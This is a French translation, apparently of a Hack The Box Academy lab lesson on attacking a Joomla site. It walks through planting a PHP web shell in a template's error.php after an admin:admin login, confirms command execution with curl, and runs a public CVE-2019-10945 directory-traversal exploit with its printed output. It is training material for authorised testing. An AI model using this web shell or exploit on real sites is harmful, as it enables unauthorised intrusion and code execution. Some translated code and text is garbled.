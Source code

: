 Attaquer Joomla
================

* * * * *

Nous savons désormais que nous avons affaire à un site e-commerce Joomla. Si nous pouvons y accéder, nous pourrons peut-être atterrir dans l'environnement interne du client et commencer à énumérer l'environnement de domaine interne. Comme WordPress et Drupal, Joomla a eu sa juste part de vulnérabilités contre l'application principale et les extensions vulnérables. De plus, comme les autres, il est possible d'obtenir l'exécution de code à distance si nous pouvons nous connecter au backend d'administration.

* * * * *

Abus des fonctionnalités intégrées
------------------------------

Au cours de la phase d'énumération Joomla et de la recherche générale de données d'entreprise, nous pouvons rencontrer des informations d'identification divulguées que nous pouvons utiliser à nos fins. En utilisant les informations d'identification que nous avons obtenues dans les exemples de la dernière section, `admin:admin`, connectons-nous au backend cible à `http://dev.inlanefreight.local/administrator`. Une fois connecté, nous pouvons voir de nombreuses options qui s'offrent à nous. Pour nos besoins, nous aimerions ajouter un extrait de code PHP pour gagner RCE. Nous pouvons le faire en personnalisant un modèle.

![](https://academy.hackthebox.com/storage/modules/113/joomla_admin.png)

À partir de là, nous pouvons cliquer sur `Modèles` en bas à gauche sous `Configuration` pour afficher le menu des modèles.

![](https://academy.hackthebox.com/storage/modules/113/joomla_templates.png)

Ensuite, nous pouvons cliquer sur un nom de modèle. Choisissons `protostar` sous l'en-tête de colonne `Template` . Cela nous amènera à la page `Modèles : Personnaliser` .

![](https://academy.hackthebox.com/storage/modules/113/joomla_customise.png)

Enfin, nous pouvons cliquer sur une page pour afficher la source de la page. C'est une bonne idée de prendre l'habitude d'utiliser des noms de fichiers et des paramètres non standard pour nos shells Web afin de ne pas les rendre facilement accessibles à un attaquant "drive-by" lors de l'évaluation. Nous pouvons également protéger par mot de passe et même limiter l'accès à notre adresse IP source. De plus, nous devons toujours nous rappeler de nettoyer les shells Web dès que nous en avons fini avec eux, mais toujours inclure le nom du fichier, le hachage du fichier et l'emplacement dans notre rapport final au client.

Choisissons la page `error.php` . Nous allons ajouter une ligne PHP pour obtenir l'exécution du code comme suit.

Code : php

```
système($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

```

![](https://academy.hackthebox.com/storage/modules/113/joomla_edited.png)

Une fois cela fait, cliquez sur `Enregistrer et fermer` en haut et confirmez l'exécution du code à l'aide de `cURL`.

```
dsgsec@htb[/htb]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

À partir de là, nous pouvons passer à un shell inversé interactif et commencer à rechercher des vecteurs locaux d'escalade de privilèges ou nous concentrer sur les mouvements latéraux au sein du réseau d'entreprise. Nous devons nous assurer, encore une fois, de noter ce changement pour nos annexes de rapport et de faire tout notre possible pour supprimer l'extrait de code PHP de la page `error.php` .

* * * * *

Tirer parti des vulnérabilités connues
--------------------------------

Au moment de la rédaction de cet article, [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) des vulnérabilités liées à Joomla ont reçu des CVE. Cependant, ce n'est pas parce qu'une vulnérabilité a été divulguée et a reçu un CVE qu'elle est exploitable ou qu'un exploit PoC public fonctionnel est disponible. Comme avec WordPress, les vulnérabilités critiques (telles que celles d'exécution de code à distance) qui affectent le noyau de Joomla sont rares. La recherche sur un site tel que `exploit-db` affiche plus de 1 400 entrées pour Joomla, la grande majorité étant des extensions Joomla.

Examinons une vulnérabilité du cœur de Joomla qui affecte la version `3.9.4`, que notre cible `http://dev.inlanefreight.local/` a été trouvée en cours d'exécution lors de notre énumération. En consultant la page Joomla [téléchargements](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html), nous pouvons voir que `3.9.4` a été publié en mars 2019. Bien qu'elle soit obsolète car nous sommes sur Joomla `4.0.3` en septembre 2021, il est tout à fait possible de rencontrer cette version lors d'une évaluation, en particulier contre une grande entreprise qui peut ne pas maintenir un bon l'inventaire des applications et ignore son existence.

En recherchant un peu, nous constatons que cette version de Joomla est probablement vulnérable à [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) qui est une vulnérabilité de traversée de répertoire et de suppression de fichier authentifiée. Nous pouvons utiliser [ce](https://www.exploit-db.com/exploits/46710) script d'exploitation pour exploiter la vulnérabilité et répertorier le contenu de la racine Web et d'autres répertoires. La version python3 de ce même script est disponible [ici](https://github.com/dpgg101/CVE-2019-10945). Nous pouvons également l'utiliser pour supprimer des fichiers (non recommandé). Cela pourrait conduire à l'accès à des fichiers sensibles tels qu'un fichier de configuration ou un script contenant des informations d'identification si nous pouvons ensuite y accéder via l'URL de l'application. Un attaquant pourrait également causer des dommages en supprimant les fichiers nécessaires si nousl'utilisateur bserver dispose des autorisations appropriées.

Nous pouvons exécuter le script en spécifiant les indicateurs `--url`, `--username`, `--password` et `--dir` . En tant que pentesters, cela ne nous serait utile que si le portail de connexion admin n'est pas accessible de l'extérieur puisque, armés de creds admin, nous pouvons obtenir l'exécution de code à distance, comme nous l'avons vu plus haut.

```
dsgsec@htb[/htb]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /

# Titre de l'exploit : Joomla Core (1.5.0 à 3.9.4) - Traversée de répertoires et suppression arbitraire de fichiers authentifiée
# Site Web : Haboob.sa
# Courriel : research@haboob.sa
# Versions : Joomla 1.5.0 à Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945
  _ _ ____ ____ ____ ____
| | | | /\ | _ \ / __ \ / __ \| _\
| |__| | / \ | |_) | | | | | | | |_) |
| __ | / /\ \ | _ <| | | | | | | _ <
| | | |/ ____ \| |_) | |__| | |__| | |_) |
|_| |_/_/ \_\____/ \____/ \____/|____/

administrateur
poubelle
cache
cli
Composants
images
comprend
langue
mises en page
bibliothèques
médias
modules
plugins
modèles
tmp
LICENCE.txt
LISEZMOI.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt

```

* * * * *

Passer à autre chose
---------

Ensuite, jetons un coup d'œil à Drupal, qui, bien qu'il détienne une part beaucoup plus petite du marché des CMS, est toujours utilisé par des entreprises du monde entier.